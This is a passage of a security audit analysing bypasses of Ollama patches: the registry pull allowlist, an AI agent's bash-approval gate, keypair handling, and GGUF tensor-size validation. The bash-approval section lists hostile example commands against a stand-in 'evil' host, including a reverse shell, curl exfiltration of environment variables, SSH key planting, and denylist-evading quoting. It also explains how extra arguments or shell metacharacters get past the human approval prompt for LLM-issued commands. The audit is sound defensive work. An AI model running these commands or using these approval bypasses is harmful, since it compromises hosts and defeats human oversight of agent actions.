  `RemoteHost` — it does NOT cover `/api/pull` registry lookups. Two
  different allowlists, only one wired up.
- `Insecure: req.Insecure` (`server/routes.go:953, 1002`) lets the
  caller force HTTP. Combined with the missing host allowlist, the
  pull path is a fully-controllable outbound HTTP client. This is the
  CVE-2024-39722-class blast radius that the cloud auth deletion would
  have widened, but it is independently exploitable today.

### TLS / `OLLAMA_INSECURE_REGISTRY`
- No env-controlled InsecureSkipVerify. The only path to disabling TLS
  verification is the `https+insecure://` scheme on a registry name
  (`server/internal/client/ollama/registry.go:969-984`), which is a
  per-pull caller-controlled opt-in. Not weakened by this revert.
- `regOpts.Insecure` toggles HTTP-vs-HTTPS but only for `n.ProtocolScheme
  == "http"`. Still relies on caller intent.

### `parseAndValidateModelRef` enforcement
- Re-applied verbatim by `4eab60c1` and called from every model-name
  surface in routes.go and create.go (see grep table above). Not
  re-located or stripped.

### Cluster behavior
The revert sequence `8207e55e` (introduce) -> `97d2f05a` (revert) ->
`799e51d4` (reapply) -> `39982a95` (revert) -> `4eab60c1` (reapply
again) shows leadership churn around UX behavior ("don't require
pulling stubs for cloud models"), not security intent. The deleted
code is currently restored, so `39982a95` is a non-issue in HEAD —
**but** the underlying cloud auth model that the code implements
(unauthenticated /api/me, unauthenticated /api/experimental/* proxy,
unallowlisted /api/pull host) carries the same SSRF / unauthenticated-
proxy surface in either state. The flap merely demonstrates that the
maintainers are willing to disable significant cloud-side validation
on short notice; future similar reverts could land without review.

## Recommended follow-ups
1. Track `/api/pull` host allowlist as a separate finding — independent
   of the revert. Should reuse `envconfig.Remotes()` (which already
   defaults to `ollama.com`) at the manifest-fetch step.
2. Track `/api/experimental/web_search` and `/api/experimental/web_fetch`
   as missing local auth — depends on whether ollama exposes the bind
   address beyond loopback (CVE-2024-28224 territory; covered by
   `allowedHostsMiddleware`).
3. Track `/api/me` / `Whoami` response trust as a design weakness — the
   server should verify the response signature, not rely on TLS to
   ollama.com alone.
4. Flag the revert flap pattern in the audit notes — four reverts in
   eight days on a security-sensitive code path is a process signal.

## Files of interest (absolute paths)
- `/Users/bytedance/Desktop/demo/ollama/server/cloud_proxy.go`
- `/Users/bytedance/Desktop/demo/ollama/server/model_resolver.go`
- `/Users/bytedance/Desktop/demo/ollama/internal/modelref/modelref.go`
- `/Users/bytedance/Desktop/demo/ollama/server/routes.go` (lines 1696-1733, 1958-2010, 271, 914-970)
- `/Users/bytedance/Desktop/demo/ollama/server/create.go` (lines 100-140, 285-328)
- `/Users/bytedance/Desktop/demo/ollama/server/images.go` (lines 596-708, 853-875, 951-993)
- `/Users/bytedance/Desktop/demo/ollama/types/model/name.go` (lines 140-176, 317-322, 333-372)
- `/Users/bytedance/Desktop/demo/ollama/envconfig/config.go` (lines 166-175)

---

# Bypass Analysis: 44179b7e (x/agent: use stdlib path package)

- **Cluster ID**: agent-bash-approval (with parent c8b599bd)
- **Type**: undisclosed-fix
- **File**: x/agent/approval.go
- **Verdict**: **bypassable** (the path-traversal hardening itself is mostly sound, but the surrounding allow-list design has multiple deeper bypasses that the patch does not address — and one new bypass arose specifically from the relaxed semantics of this commit)

## Patch Summary

`c8b599bd` added a custom `normalizePath()` helper, blocked any literal `..`, blocked any leading `/`, and rejected paths whose normalized form starts with `..`/`/`. Commit `44179b7e` reworks that to:

- replace the custom `normalizePath()` with stdlib `path.Clean`
- use `path.IsAbs()` instead of a `strings.HasPrefix(arg, "/")` check
- use `path.Dir()` for the directory part
- **relax** the previous behaviour: paths containing `..` are now allowed if `path.Clean()` keeps them under the same first component (so `tools/sub/../file.go` -> `tools/file.go` becomes an allowed prefix)
- detect "sibling escapes" by comparing `strings.SplitN(arg, "/", 2)[0]` to `strings.SplitN(cleaned, "/", 2)[0]`

The `extractBashPrefix` is the source of all approval/allow-list keys; nothing else compares paths. The eventual sink is `exec.CommandContext(ctx, "bash", "-c", command)` in `x/tools/bash.go`, i.e. the **whole user/LLM-provided string is shell-evaluated**.

## Hypotheses Tested

### 1. The narrow path-traversal mechanic itself

I rebuilt `extractBashPrefix` in /tmp/pathtest2.go and exercised it against every case the prompt called out. Results:

| Input arg | Verdict |
|---|---|
| `tools/a/b/../../../etc` | rejected (sibling-escape) |
| `tools/../etc/passwd` | rejected |
| `./tools/../../etc` | rejected (cleaned starts with `..`) |
| `tools/./../etc` | rejected (sibling-escape) |
| `tools//..//etc` | rejected (`path.Clean` collapses, sibling-escape) |
| `//etc/passwd` | rejected (`path.IsAbs` -> true) |
| `\etc\passwd` | the `\\`->`/` replacement happens before `path.IsAbs`, so it becomes `/etc/passwd` and is rejected |
| `TOOLS/../etc` | rejected (string compare is byte-exact, but TOOLS != etc anyway) |
| `tools/.../etc` | **passes** as if `...` were a literal directory name (no `..` inside, prefix becomes `cat:tools/.../`). Harmless because POSIX `...` is not a parent ref. |
| `tools/\u202E/../etc` | rejected (sibling-escape; Unicode is treated as opaque bytes) |

So **for the comparison itself the patch is sound** with respect to: Unicode normalization, trailing slash, empty components, absolute paths in any form, leading-dot, and case differential. `path.Clean` is purely lexical so symlink resolution does not happen here, but that is moot because the eventual sink is `bash -c <string>`, not an `os.Open` on `cleaned`.

### 2. New bypass introduced by relaxing the `..` rule (regression vs. c8b599bd)

`c8b599bd` rejected **any** `..` in the argument. `44179b7e` allows `..` when the cleaned path stays under the same first component. This re-enables a TOCTOU-style mismatch:

```
"cat tools/../tools/etc"  →  cleaned="tools/etc", prefix="cat:tools/" (allowed)
```

That is fine for `cat` but means the approval prefix is decided based on the **lexically cleaned** path, while bash will actually `open(2)` whatever `tools/../tools/etc` resolves to **at execution time** (different working dir, racing a `rename(2)`, or the leaf being a symlink). Combined with the `cat:tools/` -> `cat:tools/anything/` hierarchical rule, an attacker who can control the symlink target of any file under `tools/` can read arbitrary files via an approved `cat tools/X` style command. The patch did not address this because it deliberately switched from "lexical = filesystem" to "lexical only" semantics.

### 3. Multi-arg / second-argument bypass (alternate entry point in same function)

`extractBashPrefix` returns on the **first** path-like argument that passes its checks. Any subsequent arg is ignored by the approval logic but is still passed to `bash -c`:

```
ALLOWED  cat tools/file.go /etc/passwd
ALLOWED  cat tools/file.go ../../etc/passwd
ALLOWED  cat tools/file.go ~/.ssh/id_rsa     (denylist substring would catch THIS one,
                                              but only because ".ssh/id_rsa" is in denyPathPatterns)
```

This is a structural flaw in the allow-list, not in the path-cleaning code, and the patch under review does not change it.

### 4. Shell metacharacter bypass (the real story)

`extractBashPrefix` only splits on `|`. Everything else that bash treats as a command separator or substitution is invisible to it, so the FIRST `cat tools/X` token alone determines approval, and the rest of the bash string runs unsupervised:

```
ALLOWED  cat tools/file.go ; cat /etc/hosts
ALLOWED  cat tools/file.go && cat /var/log/auth.log
ALLOWED  cat tools/file.go || curl http://evil/$(id)
ALLOWED  cat tools/$(whoami)
ALLOWED  cat tools/`id`
ALLOWED  cat tools/{file.go,/etc/passwd}     (brace expansion happens in bash)
ALLOWED  cat tools/$PATH
ALLOWED  cat tools/*                         (glob)
ALLOWED  cat tools/file.go ; bash -i >& /dev/tcp/evil/4444 0>&1   (reverse shell)
ALLOWED  cat tools/file.go ; cat > ~/.ssh/authorized_keys <<< evil
ALLOWED  find tools/ -name x -exec rm -rf / {} +
ALLOWED  find tools/ -exec cat /etc/passwd \;
ALLOWED  cat tools/file.go > /etc/poison      (redirection writes outside tools/)
```

The `IsDenied` denylist catches some of these (`/etc/passwd`, `/etc/shadow`, `.ssh/id_rsa`, `rm -rf`, …) but is a substring filter that bash itself trivially defeats:

```
NOT DENIED  cat tools/file.go && cat /e''tc/passwd
NOT DENIED  cat tools/file.go && cat /et${PATH:0:0}c/passwd
NOT DENIED  cat tools/file.go && cat $'\x2fetc\x2fpasswd'
NOT DENIED  cat tools/file.go && cat $HOME/.ssh/id''_rsa
NOT DENIED  cat tools/file.go ; bash -i >& /dev/tcp/evil/4444 0>&1
NOT DENIED  cat tools/file.go ; printenv > /tmp/leak ; curl -F file=@/tmp/leak http://evil
NOT DENIED  cat tools/file.go ; cat > ~/.ssh/authorized_keys <<< $(echo evil)
```

Once one `cat tools/<anything>` is approved with "Allow for this session", any of the above will be allowed forever for the session.

### 5. Argument-skipping bypass

The first scan skips args that don't look path-like (`!contains("/") && !contains("\\") && !startsWith(".")`). The function silently drops to the second loop only when no path-like arg exists. But during the first scan, any earlier non-path token is skipped and the approval key is decided by the FIRST path-like token alone:

```
PREFIX cat:tools/   for   cat foo bar tools/file.go ../../etc
```

Combined with hierarchical match this means an attacker that can make the LLM pass an arbitrary additional arg gets free range.

### 6. `cat tools` (no slash) returns `cat:./`, NOT `cat:tools/`

```
cat tools     → prefix "cat:./"
cat tools/    → prefix "cat:tools/"
```

A user who approves `cat tools` (intending the directory) actually approves `cat <anything in cwd>`, because the first scan's path-like check requires `/` or leading `.`. This is the same class of inconsistency present pre-patch but worth flagging because the new comment line explicitly handles "explicit directory" via `isDir := strings.HasSuffix(arg, "/")` while leaving the no-slash branch to fall through to the second loop and emit `:./`.

### 7. Hierarchical match + `path.Dir` interaction

`matchesHierarchicalPrefix` is a raw `strings.HasPrefix` on the path component. This is fine when both sides end in `/` (which `extractBashPrefix` always emits). However, because every approved prefix is folded to its parent directory, approving `cat tools/sub/file.go` adds `cat:tools/sub/` and approving `cat tools/file.go` adds `cat:tools/`. So a user who only meant to authorize `tools/sub/` actually authorizes nothing broader, which is correct — but the converse means a single approval of `cat tools/anything` authorizes all of `tools/**` (including symlinked-out-of-tree leaves). Documented, but worth restating in the merged KB because users routinely under-estimate this scope.

### 8. Config-gated checks / default-state gaps

- `OLLAMA_AGENT_DISABLE_BASH=1` disables the bash tool entirely (defense). **Default is enabled.**
- `--yolo` / `opts.YoloMode` in `x/cmd/run.go:400` short-circuits ALL approval, so any of the above is an immediate full pwn under yolo mode.
- The `IsAutoAllowed` path is currently commented out (run.go:391-394), so there is no default auto-allow today — but the autoAllowPrefixes list contains `make`, `cmake`, `cargo build`, `npm test` etc. that all execute arbitrary code from project files. If re-enabled this becomes a major bypass because no path scoping is applied.

### 9. Compatibility / sibling code paths

The agent module has only one approval path (`x/agent/approval.go`); `x/cmd/run.go` is the sole caller. There is no second ApprovalManager and no other gate before `x/tools/bash.go` runs `bash -c`.

### 10. Windows / case-insensitive FS differential

`path.IsAbs("\etc\passwd")` is false (Go `path` is POSIX), but the `arg = strings.ReplaceAll(arg, "\\", "/")` normalization happens BEFORE the `path.IsAbs` check, so `\etc\passwd` becomes `/etc/passwd` and is correctly rejected. Case-insensitive comparison is not relevant: the comparison is byte-exact and the eventual `bash -c` execution does its own case-folding via the OS. On Windows specifically, `path.Clean` is fine but the executed command is still `bash -c ...`, which on Windows requires WSL/Cygwin and resolves paths case-insensitively against the Windows filesystem; the prefix `cat:Tools/` would not match a stored `cat:tools/` (byte-exact). This is a minor reliability issue, not a security one — but it means the allow-list does not protect against case-only renames in user paths.

## Verdict

**bypassable**. The patch correctly modernizes path normalization for the narrow case it was written for, and it survives Unicode/trailing-slash/empty-component/absolute-path/backslash variants. However:

1. The relaxation introduced by 44179b7e (allowing `..` if it stays under the same first component) opens a TOCTOU/symlink window that the prior commit closed.
2. The surrounding allow-list architecture remains trivially defeated by shell metacharacters, multi-arg commands, command substitution, brace/glob/parameter expansion, redirection, and `find -exec` — none of which are in scope of this patch but are the actual security boundary.
3. The denylist (`IsDenied`) is a case-folded substring match that is bypassed by trivial bash quoting (`'\x2fetc\x2fpasswd'`, `''` insertion, `${IFS}`).

## Evidence

- Patch under analysis: `git show 44179b7e`
- Parent: `git show c8b599bd`
- Sole caller of approval: `x/cmd/run.go:404`
- Sink: `x/tools/bash.go:64` (`exec.CommandContext(ctx, "bash", "-c", command)`)
- Approval logic: `x/agent/approval.go:200-300` (`extractBashPrefix`), `x/agent/approval.go:386-457` (`IsAllowed` + `matchesHierarchicalPrefix`)
- Denylist: `x/agent/approval.go:95-136` (denyPatterns + denyPathPatterns)
- Yolo bypass: `x/cmd/run.go:400`

## Recommendations (out of scope for this commit, surface to KB)

1. Tokenize commands with a real shell parser (e.g. `mvdan.cc/sh/v3/syntax`) and refuse anything containing `;`, `&&`, `||`, `$(`, backticks, redirection, glob, brace expansion, or process substitution before deriving an approval key.
2. Require the approved prefix to cover **every** path-like argument, not just the first.
3. Replace the substring-based denylist with an AST-based denial (or drop it — it gives false security).
4. Reconsider the `cat tools/X` -> `cat:tools/**` hierarchical promotion; require explicit approval at each subdirectory level.
5. Document that `OLLAMA_AGENT_DISABLE_BASH=1` is the only safe default for untrusted-model deployments.

---

# Bypass Analysis — 64883e3c "auth: fix problems with the ollama keypairs"

- **Type**: undisclosed-fix
- **Cluster ID**: AUTH-KEYPAIR (related: `eb0a5d44` "check the permissions on the private key", `eed58a31` "add local sign-in state storage", `106640b9` "fix lint")
- **Files**: `auth/auth.go`, `cmd/cmd.go`, `server/routes.go`, `api/client.go`, `api/types.go`
- **Commit author/date**: Patrick Devine, 2025-09-22

## Patch Summary

Three independent changes are bundled in this commit:

1. **Removal of the system-path key fallback.** `auth.keyPath()` previously preferred `/usr/share/ollama/.ollama/id_ed25519` (the ollama system-user key in the standard Linux package install) over `~/.ollama/id_ed25519`, but only if the candidate was readable to the current process. Both `GetPublicKey()` and `Sign()` are now hardcoded to `os.UserHomeDir() + "/.ollama/id_ed25519"` and the `keyPath()` helper is gone.
2. **Reshape of the unauthorized-error contract.** The proxied chat/generate handlers no longer leak the local `public_key` in the 401 body and no longer return HTTP 500 when key loading fails on a cold server; instead they return a `signin_url` (URL-encoded hostname + base64 pubkey) computed inside the new `signinURL()` helper in `server/routes.go`. CLI handlers (`RunHandler`, `SigninHandler`, `SignoutHandler`) consume the URL directly rather than recomputing it locally.
3. **Signout-route reshuffle.** A new `POST /api/signout` route is added; the legacy `DELETE /api/user/keys/:encodedKey` is preserved for backwards compatibility but now ignores the path parameter and looks up the key server-side. `client.Signout` and `client.Disconnect` are renamed/split.

The pre-patch security risk modeled by reviewers: on a stock Linux install, `ollama serve` runs as the `ollama` system user, so the registry/cloud identity is bound to the key in `/usr/share/ollama/.ollama/`. Because (a) the home directory is `0755` by default in the Debian/Ubuntu packaging and (b) `/usr/share/ollama/.ollama/id_ed25519` is `0600` only by post-creation chmod, any local user invoking `ollama` (CLI) would silently load that path due to the readability check in `keyPath()`. After the patch each calling UID falls back exclusively to its own `~/.ollama/id_ed25519`, isolating per-user identities.

## Bypass Verdict

**relocated** — the `/usr/share/ollama/...` fallback is gone, but the remaining logic still has multiple residual exposures around the same key, and the new `signinURL` plumbing creates a low-friction public-key oracle on the HTTP API.

## Bypass Hypotheses Tested

### H1. Other system paths still consulted (sound)
- `auth/auth.go` reads `os.UserHomeDir() + "/.ollama/id_ed25519"` only. There is no `OLLAMA_HOME` env override, no `/etc/ollama/...` fallback, no XDG path. `envconfig` does not expose a HOME alias either (`envconfig/config.go:118,390`). On Linux `os.UserHomeDir()` resolves `$HOME` first, then `/etc/passwd` for the EUID — both are user-bound, so a local attacker cannot redirect another user's key path through env manipulation.
- The duplicate registry implementation at `server/internal/client/ollama/registry.go:272` also reads `~/.ollama/id_ed25519` and is consistent with the patch. No leftover system-path callers.

### H2. Symlink hijack of `~/.ollama/id_ed25519` (bypassable in narrow scenario)
- `auth.GetPublicKey`/`Sign` call `os.ReadFile(keyPath)` with no `Lstat` and no `EvalSymlinks` check (compare `parser/parser.go:173` which does call `EvalSymlinks` for blob enumeration). If an attacker can write inside `~/.ollama/` of a target user (e.g., a chrooted process, a misconfigured CI container that mounts the home dir, or another local user when `~` is `0777`), they can replace `id_ed25519` with a symlink to a key they control before the user runs `ollama push`/Cloud signing. This is operator-error territory but the fix did not add any owner/permission verification.
- The companion commit `eb0a5d44` only verified that the system-path file was a *regular* file via `info.Mode().IsRegular()`. After 64883e3c, even that weak check is removed for the home-path case.

### H3. Owner / permission verification missing (bypassable)
- `initializeKeypair()` (cmd/cmd.go:1840) creates the dir as `0o755` and the key as `0o600` only on first run. If the directory or file was pre-created with weaker perms, the server happily loads it. There is **no `Stat`-based perm/owner check at load time** — Ollama loads any readable file at the canonical path regardless of `0o644`, `0o666`, group ownership, etc. SSH itself refuses to use private keys with permissive perms; Ollama does not.

### M13. World-readable directory traversal (bypassable in deployment)
- `MkdirAll(...., 0o755)` — directory mode lets any local user `cd ~user/.ollama`. If the operator does not chmod `0o600` on the file (e.g., umask edits, restoration from a tar with `--no-same-permissions`), the private key is exposed to every local UID. The patch did not narrow the directory permissions to `0o700` and did not add a load-time mode check.

### H3. TOCTOU between create and use (sound — not realistic here)
- `initializeKeypair()` runs once at `RunServer` start and `WriteFile` uses `O_TRUNC|O_CREATE|O_WRONLY` with mode `0o600` — racing this requires winning a window inside a single user's process startup. Cross-user races on `~/.ollama/` were already covered by M13. No additional TOCTOU vector introduced by 64883e3c.

### H6. Public-key oracle via `/api/me` and 401 responses (bypassable / new exposure introduced)
- New behavior: any unauthenticated caller that can reach the Ollama HTTP server can issue `POST /api/me` (`server/routes.go:1696,1981`). When the upstream `ollama.com` whoami returns "no user", the handler synchronously calls `signinURL() -> auth.GetPublicKey()` and returns the base64-encoded **public key** in `signin_url`. The same disclosure happens via `GenerateHandler`/`ChatHandler` proxied 401 paths (`routes.go:328-339`, `1843-...`).
- Because the only network-layer guard is `allowedHostsMiddleware` (`routes.go:1608`), which permits localhost + configured origins (and is widely bypassed in the field — see `archon/knowledge-base-report.md` row 9), the public key (and the hostname via `os.Hostname()`) is recoverable by any LAN-adjacent attacker. The pre-patch behavior leaked the same information in `public_key` JSON; the patch does **not** remove the leak — it relocates it into the `signin_url`. CSRF is also viable because routes are unauthenticated and CORS allows wildcards (`corsConfig.AllowOrigins = envconfig.AllowedOrigins()` with `*` default in many configs).
- Severity is reduced versus a private-key compromise because the public key alone does not authenticate the holder, but it (a) gives an attacker a deterministic device fingerprint to correlate the host to its ollama.com identity and (b) enables a phishing pivot: an attacker who controls a malicious Ollama-compatible server could mint a `signin_url` containing the *attacker's* public key, the *victim's* hostname, and a forged ollama.com origin — a UX condition the CLI accepts verbatim (`cmd/cmd.go: fmt.Printf(ConnectInstructions, sErr.SigninURL)` with no host validation).

### H7. Signature oracle (sound)
- `Sign()` requires a caller inside the local process; there is no HTTP endpoint that accepts arbitrary bytes and returns a signature. Cloud-proxy signing uses `auth.Sign` server-side over server-controlled challenge data only (`server/auth.go:42-68`, `server/cloud_proxy.go:367`). No oracle gadget added.

### M14. Auth-error info leak (relocated)
- The patch fixed a legitimate gap (`HTTP 500` on missing key) by funneling errors through `AuthorizationError` with a `signin_url`. Two side effects:
  - `signinURL()` failures (e.g., key file unreadable) now return `500 "error getting authorization details"` from `routes.go:332-334`, which is itself an existence/permission oracle for the key file — but since the canonical path is well-known per-user, this leaks little.
  - `client.checkError` (`api/client.go:48-52`) silently `json.Unmarshal`s the body into `AuthorizationError` without checking the unmarshal error; a malicious upstream can plant arbitrary `signin_url` content and the CLI will print it via `ConnectInstructions`. Combined with H6 this enables a phishing channel.

### M10. Sibling `id_ed25519.pub` file (sound)
- The patch removes use of the `.pub` sibling entirely (`Sign`/`GetPublicKey` derive the public key from the parsed private key). No code path now reads `id_ed25519.pub`, so a malicious `.pub` file cannot be used as a tampering vector.

### M32. Compatibility branch / deprecated route (sound but trust-shifted)
- `DELETE /api/user/keys/:encodedKey` still exists as a deprecated alias of `/api/signout`. The path parameter `encodedKey` is no longer trusted — the server reads its own pubkey via `auth.GetPublicKey()` and ignores the URL. This closes a prior trust vector where any local caller could have requested deletion of an arbitrary user's key on ollama.com (subject to upstream auth). Sound.

## Evidence

- `auth/auth.go:21-42, 53-85` — current state, no perm/symlink/owner checks.
- `cmd/cmd.go:1840-1884` — keypair init uses `0o755` dir + `0o600` file; no re-check on subsequent reads.
- `server/routes.go:183-192` — `signinURL()` derives public key + hostname for inclusion in unauthenticated responses.
- `server/routes.go:1696-1700` — `/api/me`, `/api/signout`, and `DELETE /api/user/keys/:encodedKey` are mounted with no auth middleware.
- `server/routes.go:1981-2010` — `WhoamiHandler` returns `signin_url` to any caller producing a 401 from upstream.
- `api/client.go:45-52` — `checkError` swallows `json.Unmarshal` errors when populating `AuthorizationError`, enabling upstream-controlled `SigninURL` injection.
- `cmd/cmd.go:RunHandler/SigninHandler` — print `sErr.SigninURL` verbatim with no domain pinning.

## Recommended Hardening (not part of this patch)

1. At key-load time, `Lstat` the path and reject if not a regular file, not owned by EUID, or with `mode & 0o077 != 0`.
2. Tighten `~/.ollama/` to `0o700` on first creation in `initializeKeypair()`.
3. Authenticate `/api/me`, `/api/signout`, and the deprecated DELETE alias (or restrict them to loopback only).
4. Pin `signin_url` host in the CLI to `ollama.com` (or an allowlisted set) before printing.
5. Strict-decode the `AuthorizationError` JSON in `api/client.go:checkError` and validate the `signin_url` scheme/host.


---

# Patch 9d902d63 — `ggml: ensure tensor size is valid`

- **Type**: undisclosed-fix (silent security fix)
- **Cluster ID**: gguf-parser-recurrence (siblings: CVE-2024-39720, CVE-2024-12055, CVE-2025-0315)
- **Files**: `fs/ggml/gguf.go`, `server/quantization.go`
- **Tag**: `[undisclosed]`

## Patch Summary

Two related additions:

1. `fs/ggml/gguf.go` `(*gguf).Decode`: after parsing tensor metadata, the parser now seeks to end-of-file, captures `fileSize`, seeks back, and for each tensor computes
   `tensorEnd := llm.tensorOffset + tensor.Offset + tensor.Size()` and rejects when `tensorEnd > uint64(fileSize)`.
2. `server/quantization.go` `(quantizer).WriteTo`: after `io.ReadAll(sr)`, rejects when `uint64(len(data)) < q.from.Size()`.

The motivation is to refuse GGUF files whose tensor info table claims tensor data extending past the on-disk byte range. Pre-patch, `Decode` would happily accept such metadata; downstream consumers (`ml/backend/ggml/ggml.go` weight loader, `server/quantization.go` quantizer, `model/model.go` model loader) all derive their read positions from `Tensors().Offset + tensor.Offset` and a length of `tensor.Size()`. With a crafted GGUF, those `io.NewSectionReader` calls would either silently truncate, produce uninitialized buffers, or — combined with the quantizer's `unsafe.Slice` over `q.from.Elements()` — produce out-of-bounds reads via cgo dequantize routines.

## Bypass Hypotheses Tested

### 1. Integer overflow in `tensor.Size()` / `tensor.Elements()` (CRITICAL — likely bypassable)

`fs/ggml/ggml.go:505-515`:
```go
func (t Tensor) Elements() uint64 {
    var count uint64 = 1
    for _, n := range t.Shape {
        count *= n     // unchecked uint64 wrap
    }
    return count
}

func (t Tensor) Size() uint64 {
    return t.Elements() * t.typeSize() / t.blockSize()   // multiply also wraps
}
```

The shape entries are fully attacker-controlled `uint64` values from the GGUF tensor info section (`fs/ggml/gguf.go:206-212`). Crafting `Shape = [1<<62 + 1, 1]` with `Kind = TensorTypeF32` (typeSize 4, blockSize 1) gives `Elements()` = `2^62 + 1`, `Size()` = `(2^62 + 1) * 4` = `2^64 + 4` which wraps to `4`.

Consequences:

- The new bounds check `tensorOffset + tensor.Offset + Size()` evaluates against the wrapped `Size()=4`, so `tensorEnd` is small and the check trivially passes regardless of declared shape.
- In `server/quantization.go:24-43`, `sr := io.NewSectionReader(q, ..., int64(q.from.Size()))` reads only 4 bytes; the new short-data guard `uint64(len(data)) < q.from.Size()` also uses the wrapped Size, so 4 bytes satisfies it. Then:
  ```go
  f32s = unsafe.Slice((*float32)(unsafe.Pointer(&data[0])), q.from.Elements())
  ```
  uses raw `Elements()` = `2^62 + 1` — a slice header with a hugely-larger-than-backing length, immediately enabling OOB memory disclosure when `f32s` is iterated or passed to cgo.
- The non-F32 branch is worse: `ConvertToF32(data, q.from.Kind, q.from.Elements())` (`ml/backend/ggml/quantization.go:19-21`) does `make([]float32, nelements)` with `nelements = 2^62+1`. If allocation succeeds (or the value wraps further inside `make`), it then calls `C.ggml_fp16_to_fp32_row(... &data[0], &f32s[0], int64(nelements))` which dereferences `data[0]` and reads `nelements` source elements — wild OOB read into adjacent process memory, exploitable through quantize endpoint.
- Same overflow primitive also applies to the upstream `tensorOffset + tensor.Offset` summation. An attacker can pick `tensor.Offset` so the full sum wraps to a small positive value, passing the bounds check while the loader (`ml/backend/ggml/ggml.go:526`) reads from a confused absolute file offset.

The patch is therefore **bypassable** for the same vulnerability class it claims to fix, via the unguarded multiplication in `Elements()` / `Size()`.

### 2. Negative `fileSize` cast

`rs.Seek(0, io.SeekEnd)` returns int64. The patch does `uint64(fileSize)`. A custom `io.ReadSeeker` that returns a negative offset (not possible with `*os.File`, but production code wraps `rs` with `bufioutil.NewBufferedSeeker` and downstream tests pass arbitrary seekers) would wrap to a huge `uint64`, allowing tensorEnd to "fit". For the on-disk path this is not exploitable today.

### 3. Parallel parser at `fs/gguf` lacks the bounds check (sound for now)

`fs/gguf/gguf.go` is a separate, lazy GGUF parser used by `server/images.go:89` for capability detection (`gguf.Open` then `KeyValue` lookups). `fs/gguf/gguf.go:338-347` `TensorReader` returns `io.NewSectionReader(f.file, f.offset+int64(t.Offset), t.NumBytes())` with NO bounds check at all. `t.NumBytes()` is a float64 cast (`fs/gguf/tensor.go:28-30`) and `NumValues()` is signed int64 multiplication of arbitrary `Shape` values — also overflowable.

Production callers of `TensorReader` in this repo are test-only today (`fs/gguf/gguf_test.go`, `model/models/gemma4/tokenizer_reference_test.go`), so this is **latent**, not an active bypass. But the patch did not unify the two parsers, leaving an unguarded sibling that future code may pick up.

### 4. v1 / v2 / v3 differential

All three GGUF versions share the same `(*gguf).Decode`; the patch is applied uniformly. Note that `Decode` reads tensor `offset` and each `shape[i]` as `uint64` even for v1 files (where the spec uses uint32). This pre-existing parser confusion does not bypass the new bounds check but does mean v1 files with junk high bits land into the same overflow gadget described in #1.

### 5. KV / metadata side channel

The bounds check only covers tensor data. KV strings (`readGGUFString`) and arrays (`readGGUFArray`) bypass it entirely. They are unbounded by `maxArraySize`/string-length validation against file size: a crafted nested array element count of `2^63` will cause `make([]T, n)` to OOM or panic, and `readGGUFString` does `make([]byte, length)` with length read directly from the file. Class-equivalent to CVE-2025-66959 territory but **out of scope** for this patch — confirms the patch is narrow and this remains a recurrence target.

### 6. Compatibility / alternate entry points

- `ml/backend/ggml/ggml.go` weight loader: routes through `fsggml.Decode` → covered by patch.
- `model/model.go:150` `fsggml.Decode(r, -1)` → covered.
- `server/create.go:471, 653, 687` and `server/model.go:66` quantize/import paths → covered.
- `llama/llama.go:308` `C.llama_model_load_from_file` shim — bypasses Go-side validation entirely, relies on upstream llama.cpp bounds checks. Not an Ollama-side bypass but worth flagging.

### 7. mmap vs read differential

The Ollama Go side does not mmap the GGUF directly; ggml.cpp may, behind the cgo `New` call. The Go-side bounds check is moot for that path — but again, that's outside the patch's intended scope.

### 8. Double-counted padding

`Decode` adds per-tensor `padding` between tensor data, but the bounds check uses `tensorOffset + tensor.Offset + Size()` without including inter-tensor padding for the *last* tensor. If a writer pads after the last tensor (`WriteGGUF` uses `s += ggufPadding(...)` after each tensor info, including the trailing one — `fs/ggml/gguf.go:572-574`), an attacker's last tensor that exactly equals `fileSize - tensorOffset - lastOffset` passes the check, but the seek-loop in `Decode` (`gguf.go:269-275`) also seeks an additional padding past the last tensor, which can land at or past EOF without erroring on the buffered seeker. Minor; not a meaningful bypass on its own.

## Conclusion

**Verdict**: `bypassable`.

The added `tensorEnd > fileSize` check is necessary but not sufficient because it is computed from `tensor.Size()`, which is an unchecked product of attacker-controlled `Shape[]` and `typeSize()` values. A crafted shape that wraps the `uint64` multiplication in `Tensor.Elements()` produces a tiny `Size()` that satisfies the new guard while `Elements()` continues to return the un-wrapped, enormous value used directly by `unsafe.Slice` in `server/quantization.go:43` and by `ConvertToF32` in `ml/backend/ggml/quantization.go:19-21`. The result is an exploitable OOB read / cgo memory corruption primitive reachable through any code path that ingests an attacker-supplied GGUF (model creation, model import, quantization).

The patch is best characterized as **relocated**: the seek-past-EOF crash is fixed, but the same root cause (unvalidated tensor metadata) is still reachable through the `Elements()` / `Size()` arithmetic and through the still-unbounded sibling parser at `fs/gguf/gguf.go`.

## Notes for Phase 5/8

- **Primary follow-up**: `Tensor.Elements()` and `Tensor.Size()` need overflow-checked arithmetic (e.g., `math/bits.Mul64`, or sequential `bits.Mul64`-with-carry over `Shape`). Both call sites — the new bounds check in `gguf.go:259` AND the `unsafe.Slice` / `make([]float32, nelements)` in `quantization.go` — must agree on a sentinel error rather than silently wrapping.
- **Recommend additional guard**: cap `len(Shape) * each dim` against fileSize before the bounds check, e.g. reject when `Elements() == 0` for non-empty `Shape` (overflow indicator), or compute `Size()` with explicit overflow detection and return error from `Decode`.
- **Sibling parser**: `fs/gguf/gguf.go:338` `TensorReader` and `fs/gguf/tensor.go:28` `NumBytes` lack any bounds check. Any future production caller will inherit the original CVE pattern.
- **KV-side recurrence target**: `readGGUFString` (`gguf.go:348`) and `readGGUFArray` (`gguf.go:424`) trust file-supplied lengths for `make`, sibling to CVE-2025-66959-class issues. Patch does not address these.
- **Pair with `expert_used_count` / KV trust**: many quantization decisions key off `kv.Uint("expert_count", 0)` etc.; out-of-range values may interact with the overflow primitive to make exploitation easier.
- **Confidence**: high. Bypass is mechanical from reading the diff plus `ggml.go` Size/Elements implementation; a one-page Go fuzz target over `Decode` + `quantize` should reproduce the crash.

---

# CVE-2024-28224 - DNS Rebinding Host-Header Middleware - Bypass Analysis

- **Repository**: ollama/ollama
- **Patch under analysis**: commit `fc8c0445` (Mar 2024) -> `allowedHostsMiddleware` in `server/routes.go`
- **Original advisory**: CVE-2024-28224 / GHSA-9pxc-prfx-qhg5 (DNS rebinding gives browsers full API access on `:11434`)
- **Type**: known-CVE-fix (regression / completeness analysis at HEAD `57653b8e`)
- **Cluster ID**: cluster-network-exposure (siblings: `cve-2024-28224`, `OLLAMA_HOST` defaults, CORS allowlist)

## 1. Patch Summary - what is fixed and how

